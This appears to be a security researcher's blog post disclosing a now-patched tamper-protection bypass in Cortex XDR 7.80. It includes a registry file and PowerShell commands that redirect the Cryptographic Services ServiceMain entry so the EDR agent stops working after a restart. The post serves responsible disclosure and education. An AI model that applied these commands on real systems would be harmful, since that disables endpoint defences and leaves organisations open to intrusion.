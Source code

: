 ```yaml
---
layout: post
title: "Bypassing Cortex XDR"
subtitle: "Tamper-protection bypass (patched) - responsible disclosure"
date: 2022-12-22
categories: [security-research, edr]
tags: [EDR, Windows, registry]

thumbnail-img: https://miro.medium.com/v2/resize:fit:1374/format:webp/0*PbLOP8kLASxiBntJ.jpg
share-img: https://miro.medium.com/v2/resize:fit:1374/format:webp/0*PbLOP8kLASxiBntJ.jpg
author: Ben Tamam
comments: false
readtime: true
share-title: "Bypassing Cortex XDR (Patched) - Ben Tamam"
share-description: "Research note: registry-based tamper bypass in Cortex XDR 7.80, responsibly disclosed and patched (PAN-SA-2022-0005)."
---
```


## Introduction

As a Red Teamer, I've spent considerable time analyzing EDR solutions. Today, I'm sharing my research on bypassing Cortex XDR's tamper protection - a vulnerability that has since been patched. This analysis was conducted under Palo Alto Networks' responsible disclosure policy and relates to patch **PAN-SA-2022-0005**.

> **Note:** This vulnerability has been patched. This article is published for educational purposes and to demonstrate the importance of continuous security improvements in EDR solutions.

---

## Agent’s Version

The version tested was **7.80**, with all protections enabled, including tamper protection. Testing was done in both normal and aggressive modes.

![Cortex-Version](https://miro.medium.com/v2/resize:fit:1374/format:webp/0*PbLOP8kLASxiBntJ.jpg){: width="900" }

---

## Disabling the Agent

As mentioned in PAN-SA-2022–0002, we attempted to modify the **ServiceDLL** that points Cortex XDR to the `cryptsvc` DLL (a dependency). The idea was that altering it could disable the XDR.

However, this attempt failed as expected.

![ServiceDLL Attempt](https://miro.medium.com/v2/resize:fit:1400/format:webp/0*ClfiwhwPsa4TuuI8.png){: width="900" }

---

## What is Tamper Protection?

Tamper protection is a security feature that prevents unauthorized changes to a system, such as disabling services, modifying files, or altering sensitive configurations. In EDRs, it safeguards the sensor from disruption or modification.

---

## Let’s Get Down to Business

Cortex XDR relies on **Windows Cryptographic Services** for core functionality.

![Cryptographic Services](https://miro.medium.com/v2/resize:fit:750/format:webp/0*fIcRPqDTSZ0-5zav.png){: width="900" }

We analyzed `cryptsvc.dll` using **DLL Export Viewer**, revealing the exported function **CryptServiceMain**. This matches the registry key under:

~~~text
HKLM\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters\ServiceMain
~~~

![DLL Export Viewer](https://miro.medium.com/v2/resize:fit:786/format:webp/0*umDdKkvre1Il_5IC.png){: width="900" }

---

### Registry File Method

~~~reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters]
"ServiceDllUnloadOnStop"=dword:1
"ServiceMain"="CryptServiceMain_Disable_Cortex"
~~~

---

### PowerShell Method

~~~powershell
$registryPath = "HKLM:\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters"
New-ItemProperty -Path $registryPath -Name "ServiceDllUnloadOnStop" -PropertyType DWord -Value 1
New-ItemProperty -Path $registryPath -Name "ServiceMain" -PropertyType String -Value "CryptServiceMain_Disable_Cortex"
~~~

---

Upon execution:

![Regedit](https://miro.medium.com/v2/resize:fit:640/format:webp/0*Aq6u5OQftShhiCIf.png){: width="900" }

The registry values were altered **without Cortex XDR preventing it**.

![Registry Changed](https://miro.medium.com/v2/resize:fit:786/format:webp/0*dR3uFArY3DJHvZp1.png){: width="900" }

After a restart, Cortex XDR should be fully disabled.

![Disabled XDR](https://miro.medium.com/v2/resize:fit:750/format:webp/0*U4Yf2l-ffKkev9_W.png){: width="900" }

---

## Responsible Disclosure Timeline

- **September 30, 2022** - Initial report sent to Palo Alto Networks.
- **December 14, 2022** - Patch released.
- **December 14, 2022** - Advisory published: [PAN-SA-2022-0005](https://security.paloaltonetworks.com/PAN-SA-2022-0005)

